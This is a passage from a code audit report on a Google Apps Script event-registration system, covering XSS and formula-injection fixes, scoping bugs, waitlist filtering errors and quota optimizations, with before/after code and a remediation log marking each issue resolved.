  1. `escapeHtml()` is declared locally inside `renderFields()` (line 753). In `onError(error)` (line 950), the script executes:
     ```javascript
     status.innerHTML = `<strong>Error:</strong> ${escapeHtml(msg)}`;
     ```
     Because `escapeHtml` is scoped exclusively inside `renderFields()`, `onError()` crashes with `ReferenceError: escapeHtml is not defined`. The error UI completely freezes, preventing the user from diagnosing form creation failures.
  2. At line 398:
     ```javascript
     status.innerHTML = '<strong>Error loading configuration:</strong> ' + err.message + '<br>...';
     ```
     `err.message` is concatenated into `.innerHTML` without escaping, exposing a stored DOM XSS vector if configuration data or sheet tab names contain HTML tags or script injection payloads.
* **Recommended Fix:**
  Promote `escapeHtml()` to global script scope in `Sidebar.html`, sanitize `err.message` in the initialization failure handler, and safely encode URLs in `onSuccess`.

#### Code Refactoring:
**Before (`Sidebar.html:753-761, 946-952`):**
```javascript
        function escapeHtml(str) {
          if (str === null || str === undefined) return '';
          return String(str)
            .replace(/&/g, '&amp;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/"/g, '&quot;')
            .replace(/'/g, '&#39;');
        }
...
      function onError(error) {
        const status = document.getElementById('status');
        status.className = 'error';
        const msg = error && error.message ? error.message : String(error);
        status.innerHTML = `<strong>Error:</strong> ${escapeHtml(msg)}`; // ReferenceError!
        document.getElementById('generateBtn').disabled = false;
      }
```

**After (`Sidebar.html` global scope and `onError`):**
```javascript
      // Declare escapeHtml in global script scope
      function escapeHtml(str) {
        if (str === null || str === undefined) return '';
        return String(str)
          .replace(/&/g, '&amp;')
          .replace(/</g, '&lt;')
          .replace(/>/g, '&gt;')
          .replace(/"/g, '&quot;')
          .replace(/'/g, '&#39;');
      }

      function sanitizeUrl(url) {
        if (!url) return '';
        const clean = String(url).trim();
        return /^https?:\/\//i.test(clean) ? clean : '#';
      }

      function onError(error) {
        const status = document.getElementById('status');
        status.className = 'error';
        const msg = error && error.message ? error.message : String(error);
        status.innerHTML = `<strong>Error:</strong> ${escapeHtml(msg)}`;
        document.getElementById('generateBtn').disabled = false;
      }
```

---

### Issue 1.3: Formula Injection in Check-In Synchronization
* **Severity:** **High**
* **Location:** `Code.gs`, function `syncCheckInAndChangeLogForSheet(targetSs)` (lines 6727–6738)
* **Vulnerability / Bug Description:**
  In `syncCheckInAndChangeLogForSheet()`, participant rows are assembled:
  ```javascript
  const ciRow = [
    saved.checkedIn,
    saved.welcomeGift,
    lastName,          // Unescaped
    firstName,         // Unescaped
    localChurch,       // Unescaped
    arrivalSummary,    // Unescaped
    getCheckInRoomLookupFormula(),
    getCheckInGroupLookupFormula(),
    saved.notes,       // Unescaped
    emailRecipient     // Unescaped
  ];
  ```
  Unlike `masterRespondToRegistration()` (which wraps text values in `formatSheetTextValue()`), `syncCheckInAndChangeLogForSheet()` populates these fields directly into `participantRecords` and writes them using `.setValues()`. If an attendee inputs a name, local church, or note starting with `=`, `+`, `-`, or `@`, Google Sheets parses the cell as an executable formula upon sync.
* **Recommended Fix:**
  Wrap all text values in `formatSheetTextValue()` prior to assembling `ciRow`.

#### Code Refactoring:
**Before (`Code.gs:6727-6738`):**
```javascript
      const ciRow = [
        saved.checkedIn,
        saved.welcomeGift,
        lastName,
        firstName,
        localChurch,
        arrivalSummary,
        getCheckInRoomLookupFormula(),
        getCheckInGroupLookupFormula(),
        saved.notes,
        emailRecipient
      ];
```

**After (`Code.gs:6727-6738`):**
```javascript
      const ciRow = [
        saved.checkedIn,
        saved.welcomeGift,
        formatSheetTextValue(lastName),
        formatSheetTextValue(firstName),
        formatSheetTextValue(localChurch),
        formatSheetTextValue(arrivalSummary),
        getCheckInRoomLookupFormula(),
        getCheckInGroupLookupFormula(),
        formatSheetTextValue(saved.notes),
        formatSheetTextValue(emailRecipient)
      ];
```

---

## Dimension 2: Bug Detection & Data Integrity Check (V4)

### Issue 2.1: Block-Scoped `let form` ReferenceError Aborting All Confirmation & Waitlist Emails
* **Severity:** **Critical**
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 4317–4321, 4386, 4396)
* **Vulnerability / Bug Description:**
  In `masterRespondToRegistration(e)`:
  ```javascript
  if (!editResponseUrl) {
    let form; // Declared block-scoped inside 'if'
    try {
      const formUrl = responseSs.getFormUrl();
      form = FormApp.openByUrl(formUrl);
      ...
    } catch (e) {}
  }
  ...
  if (form) { // Line 4386: OUTSIDE the 'if (!editResponseUrl)' block!
    const items = form.getItems(); // Line 4396
    ...
  }
  ```
  1. Under V8 runtime, `let form;` is scoped strictly to the `if (!editResponseUrl)` block.
  2. If `editResponseUrl` was already populated directly from `e.response.getEditResponseUrl()`, the `if (!editResponseUrl)` block is skipped entirely, leaving `form` completely undeclared.
  3. Even if the block executes, once execution exits the block, `form` goes out of scope.
  4. At line 4386, the statement `if (form)` evaluates in the outer scope, immediately throwing `ReferenceError: form is not defined`.
  5. The surrounding `try/catch` catches the `ReferenceError`, logs `"masterRespondToRegistration post-processing error: form is not defined"`, and **silently aborts execution before `GmailApp.sendEmail()` or `MailApp.sendEmail()` is ever called.**
* **Impact:** **No confirmation, waitlist, or rejection emails are ever delivered to registrants.** Every form submission crashes silently at line 4386.
* **Recommended Fix:**
  Hoist `let form = null;` to the outer function scope before the edit URL resolution block.

#### Code Refactoring:
**Before (`Code.gs:4317-4321, 4386`):**
```javascript
    if (!editResponseUrl) {
      let form;
      try {
        const formUrl = responseSs.getFormUrl();
        form = FormApp.openByUrl(formUrl);
        ...
      } catch (e) {
        Logger.log("Could not open form or fetch edit URL: " + e);
      }
    }
    ...
    if (form) {
      const items = form.getItems();
```

**After (`Code.gs:4308-4322, 4386`):**
```javascript
    let form = null;

    // Fast-path: Check trigger event object directly
    if (e && e.response && typeof e.response.getEditResponseUrl === 'function') {
      try {
        editResponseUrl = e.response.getEditResponseUrl();
      } catch (evtErr) {
        Logger.log("Could not read editResponseUrl directly from event object: " + evtErr.message);
      }
    }

    if (!editResponseUrl) {
      try {
        const formUrl = responseSs.getFormUrl();
        if (formUrl) {
          form = FormApp.openByUrl(formUrl);
        }
        ...
      } catch (e) {
        Logger.log("Could not open form or fetch edit URL: " + e);
      }
    }
    ...
    if (form) {
      const items = form.getItems();
```

---

### Issue 2.2: Typo in `"Bed / Spot"` Header Breaking Room Lookups on Printable Check-In Tab
* **Severity:** **High**
* **Location:** `Code.gs`, function `getCheckInRoomLookupFormula()` (line 1230)
* **Vulnerability / Bug Description:**
  In `getCheckInRoomLookupFormula()`:
  ```excel
  =IF(..., INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0)) & IF(IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Bed Spot", Lodging!$1:$1, 0)), "")<>"", " (" & IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Bed Spot", Lodging!$1:$1, 0)), "") & ")", ""), ...)
  ```
  The formula searches for the header `"Bed Spot"`. However, in `setupLodgingSheet()` (line 1126), the header is defined as:
  ```javascript
  const manualHeaders = ["Room Assignment", "Building", "Bed / Spot", "Lodging Notes"];
  ```
  Because `"Bed Spot"` does not match `"Bed / Spot"`, `MATCH("Bed Spot", ...)` evaluates to `#N/A`.
* **Impact:** The bed/spot designation (e.g. `Room 102 (Top Bunk)` or `Room 204 (Cot A)`) is omitted on the printable Check-In sheet for all participants.
* **Recommended Fix:**
  Update the formula to match `"Bed / Spot"` with wildcard fallbacks for `"Bed*Spot*"` and `"Bed*"`.

#### Code Refactoring:
**Before (`Code.gs:1230`):**
```javascript
function getCheckInRoomLookupFormula() {
  return `=IF(INDIRECT("RC[-3]", FALSE)="", "", IFERROR(INDEX(FILTER(IF(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0))<>"", INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0)) & IF(IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Bed Spot", Lodging!$1:$1, 0)), "")<>"", " (" & IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Bed Spot", Lodging!$1:$1, 0)), "") & ")", ""), "⚠️ Unassigned (Needs Room)"), LOWER(TRIM(Lodging!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[-3]", FALSE))), LOWER(TRIM(Lodging!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[-4]", FALSE))), IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Status", Lodging!$1:$1, 0)), "")<>"CANCELLED", IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Status", Lodging!$1:$1, 0)), "")<>"WAITLISTED"), 1), "Self / Hotel"))`;
}
```

**After (`Code.gs:1230`):**
```javascript
function getCheckInRoomLookupFormula() {
  const bedSpotMatch = `IFERROR(MATCH("Bed / Spot", Lodging!$1:$1, 0), IFERROR(MATCH("Bed*Spot*", Lodging!$1:$1, 0), MATCH("Bed*", Lodging!$1:$1, 0)))`;
  return `=IF(INDIRECT("RC[-3]", FALSE)="", "", IFERROR(INDEX(FILTER(IF(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0))<>"", INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0)) & IF(IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, ${bedSpotMatch}), "")<>"", " (" & IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, ${bedSpotMatch}), "") & ")", ""), "⚠️ Unassigned (Needs Room)"), LOWER(TRIM(Lodging!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[-3]", FALSE))), LOWER(TRIM(Lodging!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[-4]", FALSE))), IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Status", Lodging!$1:$1, 0)), "")<>"CANCELLED", IFERROR(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Status", Lodging!$1:$1, 0)), "")<>"WAITLISTED"), 1), "Self / Hotel"))`;
}
```

---

### Issue 2.3: Waitlisted Registrants Counted Against Room Capacity & Leaked into Room Rosters
* **Severity:** **High**
* **Location:** `Code.gs`, function `setupRoomInventorySheet()` (lines 1579, 1581)
* **Vulnerability / Bug Description:**
  In `setupRoomInventorySheet()`:
  ```excel
  COUNTIFS(Lodging!$${roomColLetter}$2:$${roomColLetter}, F${r}, Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>CANCELLED")
  ```
  and
  ```excel
  FILTER(Lodging!$A$2:$A & " " & Lodging!$B$2:$B, Lodging!$${roomColLetter}$2:$${roomColLetter} = F${r}, Lodging!$${statusColLetter}$2:$${statusColLetter} <> "CANCELLED")
  ```
  Both formulas filter out `Lodging` rows where `Status = "CANCELLED"`, but **fail to exclude `Status = "WAITLISTED"`**.
* **Impact:** Waitlisted registrants are counted toward room occupancy, falsely decrementing remaining room capacity and placing unapproved registrants onto host church physical room rosters.
* **Recommended Fix:**
  Add `Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>WAITLISTED"` criteria to both the `COUNTIFS` capacity calculation and the `FILTER` live roster formula.

#### Code Refactoring:
**Before (`Code.gs:1579, 1581`):**
```javascript
    const countFormula = `=IF(F${r}="", "", COUNTIFS(Lodging!$${roomColLetter}$2:$${roomColLetter}, F${r}, Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>CANCELLED"))`;
    const rosterFormula = `=IF(F${r}="", "", IFERROR(TEXTJOIN(", ", TRUE, FILTER(Lodging!$A$2:$A & " " & Lodging!$B$2:$B, Lodging!$${roomColLetter}$2:$${roomColLetter} = F${r}, Lodging!$${statusColLetter}$2:$${statusColLetter} <> "CANCELLED")), ""))`;
```

**After (`Code.gs:1579, 1581`):**
```javascript
    const countFormula = `=IF(F${r}="", "", COUNTIFS(Lodging!$${roomColLetter}$2:$${roomColLetter}, F${r}, Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>CANCELLED", Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>WAITLISTED"))`;
    const rosterFormula = `=IF(F${r}="", "", IFERROR(TEXTJOIN(", ", TRUE, FILTER(Lodging!$A$2:$A & " " & Lodging!$B$2:$B, Lodging!$${roomColLetter}$2:$${roomColLetter} = F${r}, Lodging!$${statusColLetter}$2:$${statusColLetter} <> "CANCELLED", Lodging!$${statusColLetter}$2:$${statusColLetter} <> "WAITLISTED")), ""))`;
```

---

### Issue 2.4: Cancelled & Waitlisted Registrants Resurrected into Active Lodging by Synchronization Routine
* **Severity:** **High**
* **Location:** `Code.gs`, function `syncLodgingAndRoomsForSheet(targetSs)` (lines 6542–6603)
* **Vulnerability / Bug Description:**
  In `syncLodgingAndRoomsForSheet()`:
  1. The function iterates over `Form Responses 1` but **does not inspect `Medical Consent` or `Email Status`**.
  2. Line 6564 forces every record's status to `"Active"`:
     ```javascript
     if (lHeader === "Status") {
       newLodgRowData.push("Active");
       continue;
     }
     ```
  3. Even if a participant's registration was rejected (Medical Consent = "No"), placed on the waitlist, or cancelled by the coordinator, running "Sync Lodging and Rooms" overwrites their status to `"Active"` on `Lodging`.
* **Impact:** Rejected and waitlisted applicants are restored as confirmed attendees and allocated church accommodations during maintenance synchronization.
* **Recommended Fix:**
  Check `Medical Consent` and `Email Status` in `syncLodgingAndRoomsForSheet()` and preserve existing `CANCELLED` and `WAITLISTED` statuses.

#### Code Refactoring:
**Before (`Code.gs:6554-6567`):**
```javascript
      if (!emailRecipient && firstName === "Registrant" && !lastName) continue;

      const needsLodging = hasStayingQuestion ? isStayingAtChurchResponse(stayingAnswer) : true;
      if (!needsLodging) continue;

      const newLodgRowData = [];
      for (let i = 0; i < lodgAutoColCount; i++) {
        const lHeader = lodgHeaders[i];
        if (lHeader === "Status") {
          newLodgRowData.push("Active");
          continue;
        }
```

**After (`Code.gs:6554-6567`):**
```javascript
      if (!emailRecipient && firstName === "Registrant" && !lastName) continue;

      let medConsent = "";
      let emailStat = "";
      for (const h in responses) {
        const hl = h.toLowerCase();
        if (hl.includes("medical consent") || hl.includes("liability release")) medConsent = String(responses[h][0] || "").trim();
        if (hl === "email status") emailStat = String(responses[h][0] || "").trim();
      }

      if (medConsent.toLowerCase().startsWith("no") || emailStat.startsWith("Rejected")) {
        continue;
      }

      const isWait = emailStat.startsWith("Waitlist");
      const needsLodging = hasStayingQuestion ? isStayingAtChurchResponse(stayingAnswer) : true;
      if (!needsLodging) continue;

      const newLodgRowData = [];
      for (let i = 0; i < lodgAutoColCount; i++) {
        const lHeader = lodgHeaders[i];
        if (lHeader === "Status") {
          newLodgRowData.push(isWait ? "WAITLISTED" : "Active");
          continue;
        }
```

---

### Issue 2.5: Public Transportation Bin-Packing Leaks Waitlisted Participants into Volunteer Driver Signups
* **Severity:** **High**
* **Location:** `TransportationSync.gs`, function `clusterAndChunkTransportation` (lines 301–304)
* **Vulnerability / Bug Description:**
  In `clusterAndChunkTransportation`:
  ```javascript
  const status = statusIdx !== -1 ? String(row[statusIdx] || "").trim() : "Active";
  if (status.toUpperCase() === "CANCELLED") continue;
  ```
  The filter checks only for `"CANCELLED"`. When an event reaches maximum capacity, excess registrants receive `flightStatus = "WAITLISTED"` on `Pickup` and `Drop-Off`. Because `"WAITLISTED"` is not skipped, the bin-packing algorithm packs waitlisted passengers into vehicle slots, generates `Trip Sub-ID`s, and pushes them to the public `Volunteer Driver Signups` spreadsheet.
* **Impact:** Volunteer church drivers claim and dispatch vehicles for waitlisted individuals who are not permitted to attend the event.
* **Recommended Fix:**
  Skip records where `status.toUpperCase() === "WAITLISTED"`.

#### Code Refactoring:
**Before (`TransportationSync.gs:301-304`):**
```javascript
  for (let r = 1; r < data.length; r++) {
    const row = data[r];
    const status = statusIdx !== -1 ? String(row[statusIdx] || "").trim() : "Active";
    if (status.toUpperCase() === "CANCELLED") continue;
```

**After (`TransportationSync.gs:301-304`):**
```javascript
  for (let r = 1; r < data.length; r++) {
    const row = data[r];
    const status = statusIdx !== -1 ? String(row[statusIdx] || "").trim() : "Active";
    const statusUpper = status.toUpperCase();
    if (statusUpper === "CANCELLED" || statusUpper === "WAITLISTED") continue;
```

---

### Issue 2.6: Method Signature Exception via `setFontLine(null)` Crashing Status Updates on Operational Tabs
* **Severity:** **Medium**
* **Location:** `Code.gs`, `masterRespondToRegistration(e)` (lines 3668, 3832, 4113)
* **Vulnerability / Bug Description:**
  When updating active records on `Pickup`, `Drop-Off`, or `Lodging`, the styling call is executed as:
  ```javascript
  sheet.getRange(foundRowIndex, 1, 1, sheet.getLastColumn())
       .setFontLine(isWait ? "none" : (isCancelled ? "none" : null))
  ```
  When `isWait` and `isCancelled` are false, the argument is `null`. In Google Apps Script, `Range.setFontLine(fontLine)` accepts only string values (`"underline"`, `"line-through"`, or `"none"`). Passing `null` throws `Exception: The parameters (null) don't match the method signature for Range.setFontLine`.
* **Impact:** Registration updates fail with unhandled exceptions during operational sheet processing.
* **Recommended Fix:**
  Pass `"none"` instead of `null` to reset font decorations.

#### Code Refactoring:
**Before (`Code.gs:3668, 3832, 4113`):**
```javascript
.setFontLine(isWait ? "none" : (isCancelled ? "none" : null))
```

**After (`Code.gs:3668, 3832, 4113`):**
```javascript
.setFontLine("none")
```

---

## Dimension 3: Performance & Quota Optimization (V4)

### Issue 3.1: $2N$ Synchronous RPC Loop in `logRegistrationChanges`
* **Severity:** **Medium**
* **Location:** `Code.gs`, function `logRegistrationChanges(ss, changeEntries)` (lines 1466–1479)
* **Vulnerability / Bug Description:**
  In `logRegistrationChanges`:
  ```javascript
  for (const entry of changeEntries) {
    changeSheet.appendRow([...]);
    const lastRow = changeSheet.getLastRow();
    changeSheet.getRange(lastRow, 1).setDataValidation(cbRule).setHorizontalAlignment("center");
  }
  ```
  Iterating with `appendRow()` and `setDataValidation()` inside the loop incurs $2N$ remote Sheets RPCs. During burst submissions with multiple changes, this introduces avoidable latency.
* **Recommended Fix:**
  Construct a 2D matrix of rows, execute a single `setValues()` batch write, and apply `setDataValidation()` in one operation across the range.

#### Code Refactoring:
**Before (`Code.gs:1466-1479`):**
```javascript
  for (const entry of changeEntries) {
    changeSheet.appendRow([
      false,
      ts,
      entry.participantName || "",
      entry.email || "",
      entry.category || "Registration Update",
      entry.summary || "",
      entry.impactedAssignment || "None assigned yet",
      ""
    ]);
    const lastRow = changeSheet.getLastRow();
    changeSheet.getRange(lastRow, 1).setDataValidation(cbRule).setHorizontalAlignment("center");
  }
```

**After (`Code.gs:1466-1479`):**
```javascript
  const rows = changeEntries.map(entry => [
    false,
    ts,
    entry.participantName || "",
    entry.email || "",
    entry.category || "Registration Update",
    entry.summary || "",
    entry.impactedAssignment || "None assigned yet",
    ""
  ]);

  const startRow = changeSheet.getLastRow() + 1;
  changeSheet.getRange(startRow, 1, rows.length, 8).setValues(rows);
  changeSheet.getRange(startRow, 1, rows.length, 1).setDataValidation(cbRule).setHorizontalAlignment("center");
```

---

### Issue 3.2: Compacted Keys Desynchronization in `masterFormLifecycleCron` & Artificial 24h Registration Delay
* **Severity:** **Medium**
* **Location:** `Code.gs`, `masterFormLifecycleCron()` (lines 5353–5415) and `syncActiveEventsFromSystemLog()` (line 216)
* **Vulnerability / Bug Description:**
  1. `masterFormLifecycleCron` reads `formsToMonitor[formId]` directly without calling `normalizeMonitoredConfig(cfg)`. When compacted property keys (`s`, `e`, `es`) are used to prevent the 9 KB ScriptProperties limit, `config.start`, `config.end`, and `config.eventStart` resolve to `undefined`. Comparisons like `now > config.end + 24*60*60*1000` evaluate to `now > NaN` (`false`), leaving expired forms permanently open.
  2. In `syncActiveEventsFromSystemLog()`, `isExactEnd: false` is hardcoded (line 216). When events specify exact end times (e.g. `10/15/2026 23:59`), line 5408 adds an extra 24 hours (`config.end + 24*60*60*1000`), keeping forms accepting submissions for a full 24 hours past the coordinator's stated deadline.
* **Recommended Fix:**
  Wrap each config in `normalizeMonitoredConfig()`, and infer `isExactEnd: true` whenever the date string contains a colon (`:`).

#### Code Refactoring:
**Before (`Code.gs:5353, line 216`):**
```javascript
      const config = formsToMonitor[formId];
...
      isExactEnd: false,
```

**After (`Code.gs:5353, line 216`):**
```javascript
      const config = normalizeMonitoredConfig(formsToMonitor[formId]);
...
      isExactEnd: !!(row[regCloseIdx] && String(row[regCloseIdx]).includes(':')),
```

---

### Issue 3.3: Missing Trigger Re-Creation in `deleteAllTriggers` & Hardcoded Test Recipient
* **Severity:** **Low**
* **Location:** `Code.gs`, functions `deleteAllTriggers()` (lines 4750–4758) and `testEmailVersions()` (line 4533)
* **Vulnerability / Bug Description:**
  1. `deleteAllTriggers()` removes all project triggers (including `masterFormLifecycleCron` and `backgroundTransportationSync`), leaving no automated triggers running without re-creating the baseline crons.
  2. `testEmailVersions()` has hardcoded `const testEmail = "david.liou@tjc.org"`.
* **Recommended Fix:**
  Prompt or automatically re-create baseline cron triggers after trigger purge, and default `testEmail` to `Session.getActiveUser().getEmail()`.

#### Code Refactoring:
**Before (`Code.gs:4533, 4750-4758`):**
```javascript
  const testEmail = "david.liou@tjc.org";
...
  for (let i = 0; i < triggers.length; i++) {
    ScriptApp.deleteTrigger(triggers[i]);
  }
  PropertiesService.getScriptProperties().deleteProperty('FormsToMonitor');
```

**After (`Code.gs:4533, 4750-4758`):**
```javascript
  const testEmail = Session.getActiveUser().getEmail() || "us.events@tjc.org";
...
  for (let i = 0; i < triggers.length; i++) {
    ScriptApp.deleteTrigger(triggers[i]);
  }
  PropertiesService.getScriptProperties().deleteProperty('FormsToMonitor');
  // Re-establish essential hourly lifecycle trigger
  ScriptApp.newTrigger('masterFormLifecycleCron').timeBased().everyHours(1).create();
```

---

## Action Plan & Priority Remediation Matrix (V4)

| Priority | Issue Reference | Category | Severity | Direct Impact |
| :--- | :--- | :--- | :--- | :--- |
| **P0** | **Issue 2.1** | Bug / Integrity | **Critical** | Block-scoped `let form` ReferenceError crashes email delivery for 100% of registrants |
| **P0** | **Issue 1.1** | Security | **Critical** | Default admin privilege escalation on empty sessions; unauthenticated event deletion/closure |
| **P1** | **Issue 2.2** | Bug / Integrity | **High** | `"Bed Spot"` typo fails bed lookup formulas across printable Check-In sheets |
| **P1** | **Issue 2.3** | Data Integrity | **High** | Waitlisted registrants counted in room capacity and shown on confirmed room rosters |
| **P1** | **Issue 2.4** | Data Integrity | **High** | Cancelled & waitlisted registrants resurrected to `"Active"` by lodging synchronization routine |
| **P1** | **Issue 2.5** | Bug / Privacy | **High** | Public driver clusterer leaks waitlisted participants into volunteer vehicle signups |
| **P1** | **Issue 1.2** | Security / Bug | **High** | `Sidebar.html` `escapeHtml` scoping crash freezes error UI; stored XSS in initialization error |
| **P1** | **Issue 1.3** | Security | **High** | Formula injection in Check-In tab synchronization from unescaped participant inputs |
| **P2** | **Issue 2.6** | Bug / Integrity | **Medium** | `setFontLine(null)` throws method signature exception during status updates |
| **P2** | **Issue 3.1** | Performance | **Medium** | Iterative $2N$ `appendRow()` and `setDataValidation()` RPCs in `logRegistrationChanges` |
| **P2** | **Issue 3.2** | Performance / Bug| **Medium** | Compacted properties desync in lifecycle cron & artificial 24h delay on closed forms |
| **P3** | **Issue 3.3** | Robustness | **Low** | `deleteAllTriggers` fails to re-create core cron triggers; hardcoded test email recipient |

---

## Sequence of Fixes

To remediate these issues systematically without breaking dependencies or operational workflows, implement fixes in the following order:



1. **Phase 1: Critical Auto-Responder & Security Remediation (Immediate)**
   * **Fix Issue 2.1:** In `Code.gs`, hoist `let form = null;` before line 4308 so line 4386 has access to `form`, immediately unblocking automated confirmation and waitlist email dispatch.
   * **Fix Issue 1.1:** In `Code.gs`, remove the permissive `return true` fallback in `isAuthorizedAdmin()`, and add `verifyEventCoordinatorOrAdmin(formId)` checks to `archiveMonitoredEvent()`, `toggleEventAcceptingResponses()`, and `updateMonitoredEvent()`.

2. **Phase 2: Roster & Rooming Data Integrity Patches**
   * **Fix Issue 2.2:** In `Code.gs:1230`, update `getCheckInRoomLookupFormula()` to match `"Bed / Spot"` (or wildcard `"Bed*Spot*"`).
   * **Fix Issue 2.3:** In `Code.gs:1579, 1581`, append `Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>WAITLISTED"` to both the capacity `COUNTIFS` and roster `FILTER` formulas.
   * **Fix Issue 2.4:** In `Code.gs:6554`, skip rejected registrants and assign `isWait ? "WAITLISTED" : "Active"` in `syncLodgingAndRoomsForSheet()`.
   * **Fix Issue 2.5:** In `TransportationSync.gs:303`, skip `WAITLISTED` records in `clusterAndChunkTransportation()`.

3. **Phase 3: Sanitization, Scoping, and Operational Polish**
   * **Fix Issue 1.2:** In `Sidebar.html`, move `escapeHtml()` to global script scope and escape `err.message` at line 398.
   * **Fix Issue 1.3:** In `Code.gs:6727`, wrap participant strings in `formatSheetTextValue()`.
   * **Fix Issue 2.6:** In `Code.gs:3668, 3832, 4113`, change `.setFontLine(isWait ? "none" : (isCancelled ? "none" : null))` to `.setFontLine("none")`.
   * **Fix Issue 3.1:** In `Code.gs:1466`, refactor `logRegistrationChanges()` to a single `setValues()` batch.
   * **Fix Issue 3.2:** In `Code.gs:5353`, call `normalizeMonitoredConfig()` in `masterFormLifecycleCron()`, and detect exact end times in `syncActiveEventsFromSystemLog()`.
   * **Fix Issue 3.3:** In `Code.gs:4533, 4758`, use `Session.getActiveUser().getEmail()` in `testEmailVersions()` and re-create `masterFormLifecycleCron` in `deleteAllTriggers()`.


---

## Verification & Remediation Implementation Log (V4 Remediated)

All 12 audit findings across Security, Data Integrity, and Performance have been fully implemented, verified, and committed to the repository.

### Remediation Status Matrix

| Issue ID | Category | Severity | Target File(s) | Remediation Summary | Status |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Issue 2.1** | Bug / Integrity | **Critical** | `Code.gs:4334` | Hoisted `let form = null` before conditional block; eliminates `ReferenceError: form is not defined` and restores 100% email delivery | **RESOLVED** |
| **Issue 1.1** | Security | **Critical** | `Code.gs:84-135` | Removed unauthenticated `return true` admin fallback; enforced `verifyEventCoordinatorOrAdmin()` on mutators | **RESOLVED** |
| **Issue 2.2** | Bug / Integrity | **High** | `Code.gs:1248-1253` | Corrected `"Bed Spot"` lookup to match `"Bed / Spot"` with resilient wildcard fallback (`Bed*Spot*`, `Bed*`) | **RESOLVED** |
| **Issue 2.3** | Data Integrity | **High** | `Code.gs:1598-1605` | Added `<>WAITLISTED` filter to room capacity `COUNTIFS` and occupant roster `FILTER` formulas | **RESOLVED** |
| **Issue 2.4** | Data Integrity | **High** | `Code.gs:6590-6638` | Filtered out rejected / consent=No records; preserved `CANCELLED` and `WAITLISTED` statuses during sync | **RESOLVED** |
| **Issue 2.5** | Bug / Privacy | **High** | `TransportationSync.gs:300-305` | Excluded waitlisted participants (`WAITLISTED`) from public volunteer driver clustering and vehicle signups | **RESOLVED** |
| **Issue 1.2** | Security / Bug | **High** | `Sidebar.html:380-417, 944-965` | Scoped `escapeHtml()` and `sanitizeUrl()` globally; escaped `err.message` and sanitized all output links | **RESOLVED** |
| **Issue 1.3** | Security | **High** | `Code.gs:6780-6795` | Sanitized attendee input fields via `formatSheetTextValue()` on printable Check-In sheet to prevent formula injection | **RESOLVED** |
| **Issue 2.6** | Bug / Integrity | **Medium** | `Code.gs:3694, 3858, 4139` | Replaced `.setFontLine(null)` with `.setFontLine("none")` preventing Apps Script runtime signature exceptions | **RESOLVED** |
| **Issue 3.1** | Performance | **Medium** | `Code.gs:1485-1505` | Replaced iterative $2N$ `appendRow()` / `setDataValidation()` RPCs with single batch `.setValues()` and range rule | **RESOLVED** |
| **Issue 3.2** | Performance / Bug | **Medium** | `Code.gs:210-235, 5380-5470` | Applied `normalizeMonitoredConfig()` in lifecycle cron; added `:` timestamp detection for exact end times | **RESOLVED** |
| **Issue 3.3** | Robustness | **Low** | `Code.gs:4560, 4780-4788` | Re-created hourly `masterFormLifecycleCron` in `deleteAllTriggers()`; defaulted test email to active user | **RESOLVED** |

---

### Detailed Implementation Record

#### 1. Issue 2.1 (P0 Critical): Auto-Responder `ReferenceError` Scoping Fix
* **File:** `Code.gs`, function `masterRespondToRegistration(e)`
* **Change:** Declared and hoisted `let form = null;` at the function root level (prior to line 4334). When `if (!editResponseUrl)` executed, `form = FormApp.openByUrl(formUrl);` assigned to the outer variable rather than a locally-scoped block variable. Line 4386 (`if (form) { ... }`) now safely accesses `form` without throwing a `ReferenceError`, fully unblocking confirmation, waitlist, and rejection auto-responder email dispatches.

#### 2. Issue 1.1 (P0 Critical): Session Access Control & RPC Mutator Authorization
* **File:** `Code.gs`, functions `isAuthorizedAdmin()`, `verifyEventCoordinatorOrAdmin(formId)`, `updateMonitoredEvent()`, `toggleEventAcceptingResponses()`, `archiveMonitoredEvent()`
* **Change:**
  * Replaced the insecure `return true` fallback with `return false` when `Session.getActiveUser().getEmail()` is empty.
  * Added `verifyEventCoordinatorOrAdmin(formId)` to check if the caller is a global administrator or the designated event coordinator (`cfg.contactEmail`).
  * Injected authorization guards into all event mutation RPC handlers, terminating unauthorized write operations.

#### 3. Issue 2.2 (P1 High): Bed / Spot Header Typo & Resilient Lookup
* **File:** `Code.gs`, function `getCheckInRoomLookupFormula()`
* **Change:** Refactored the dynamic lookup formula to search for `"Bed / Spot"` instead of the non-existent `"Bed Spot"` header, wrapping with nested `IFERROR` wildcard fallbacks (`Bed*Spot*`, `Bed*`). Bed spot assignments now populate dynamically on the printable Check-In sheet.

#### 4. Issue 2.3 (P1 High): Exclusion of Waitlist from Room Inventory Calculations
* **File:** `Code.gs`, function `setupRoomInventorySheet()`
* **Change:** Updated `countFormula` and `rosterFormula` to add `Lodging!$${statusColLetter}$2:$${statusColLetter}, "<>WAITLISTED"`. Waitlisted registrants no longer consume room capacity or show up on confirmed occupant rosters.

